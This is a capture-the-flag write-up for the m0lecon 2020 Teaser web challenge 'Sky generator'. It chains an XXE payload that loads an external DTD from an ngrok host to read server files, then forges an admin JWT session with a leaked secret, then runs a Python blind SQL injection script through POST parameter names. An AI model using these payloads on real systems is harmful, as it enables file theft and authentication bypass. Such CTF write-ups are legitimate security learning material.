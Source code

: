 ```yaml
---
ctf_name: "m0lecon 2020 Teaser"
title:	"Sky generator"
date:	2020-05-24
category: "web"
author: "Maxpnl"
---
```


### Initial foothold
The website allowed users to transform an xml to a png, containing a sort of constellation, I tried to read /etc/passwd through an xxe payload and it worked, I was a little bit stuck until another member of the team remembered me you can see directories contents, I then looked at /var/www and saw a few juicy php files, one of them was called config.php, the only problem was that a php file contains some characters (e.g. <,  >) which doesn't behave well with xml, therefore I started looking for a way to bypass this limitation, one of them was using CDATA, using it leads the xml parser to avoid trying to interpret the readen file as an xml entity, it sort of sanitizes the readen file. In order to use it I had to create an external dtd file, and serve it using ngrok, the final payload looked something like

(credits to https://dzone.com/articles/xml-external-entity-xxe-limitations)

ngrok.dtd
```
<!ENTITY % file SYSTEM "file:///var/www/html/skygenerator/public/config.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 
```

template.xml
```xml
<!DOCTYPE data [
 <!ENTITY % dtd SYSTEM
 "http://ngrokendpoint/ngrok.dtd">
 %dtd;
 %all;
]>
<sky>
	<star x="10" y="10">&fileContents;</star>
</sky>
```

after that I was able to read the config.php file, as well as any other php file without parsing errors.

### Controlling the jwt token
The config.php file had the secret key for the jwt token verification and it was using this plugin to replace the default session handling with jwt https://github.com/byjg/jwt-session.

I took a look at the admin_dashboard.php as well, and it seemed like it was checking for the user role to decide whether a user can access it, this user role was stored inside the session, after seeing this the next steps are pretty straightforward, I installed that jwt session and created a little php script to set the user role inside the session to admin, using the same private key as the server. After that I had a jwt token that was valid for the challenge as well.

```php
<?php

include  "vendor/autoload.php";
$sessionConfig = (new \ByJG\Session\SessionConfig("skygenerator"))
->withSecret("Vb8lckQX8LFPq45Exq5fy2TniLUplKGZXO2")
->withTimeoutMinutes(60);
$handler = new \ByJG\Session\JwtSession($sessionConfig);
session_set_save_handler($handler, true);
session_start();
$_SESSION["id"] = 1846;
$_SESSION["role"] = "admin";
?>
```

### SQL Injection in admin panel
The admin dashboard had a sql injection problem, in addition to the user_id post param it added any extra post param inside the query, the problem is it was doing something like 

```javascript
query = "SELECT ... user_id=:user_id";
foreach ($_POST as $param){
	query .= " AND $param=:param";
}
```

The problem with this code is that $param is not sanitized and it can contain any sql statement, the only problem was that spaces didn't behave well with the :param, the trick was to replace spaces with tabs (\t or %09 url encoded), then I just had to run a typical content-based blind sql injection on the name of the post parameter (not the value) and I got the flag

```python
import requests
def tryshit(query):
    query = query.replace(" ", "\t")
    r = requests.post(
        "https://challs.m0lecon.it:8000/admin_dashboard",
        cookies={"AUTH_BEARER_default": "generated jwt token"},
        data={"user_id": my_user_id, query: 15})
    return r.text


import string

found = ""

while len(found)<100:
    print(found)
    for x in "abcdef" + string.digits:
        dio = tryshit("1=(SELECT 1 FROM flag WHERE hex(flag) LIKE '{}%') -- -".format(found+x))
        if "filesize()" in dio:
            found+=x
            break
```